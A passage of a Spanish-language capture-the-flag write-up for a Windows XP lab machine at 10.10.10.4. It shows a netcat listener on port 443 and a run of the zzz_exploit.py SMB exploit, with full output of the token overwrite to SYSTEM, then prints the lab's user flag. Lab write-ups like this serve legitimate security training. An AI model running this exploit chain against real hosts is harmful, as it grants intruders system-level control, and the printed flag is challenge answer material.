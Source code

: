 Paso 4.

```console
sudo rlwrap nc -nlvp 443
```

```
listening on [any] 443 ...
```

Paso 5.

```console
python2 zzz_exploit.py 10.10.10.4 browser
```

```
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x863cbda8
SESSION: 0xe147b748
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1b885b0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1b88650
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service lUkW.....
Starting service lUkW.....
The NETBIOS connection with the remote host timed out.
Removing service lUkW.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Una vez nos da acceso al sistema vemos que tenemos acceso al sistema y ademas podemos ver tanto la flag de *user* como la de *administrador*

Flag de usuario

```console
type C:\DOCUME~1\jhon\Desktop\user.txt
```

```
e69af0e4f443de7e36876fda4ec7644f
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>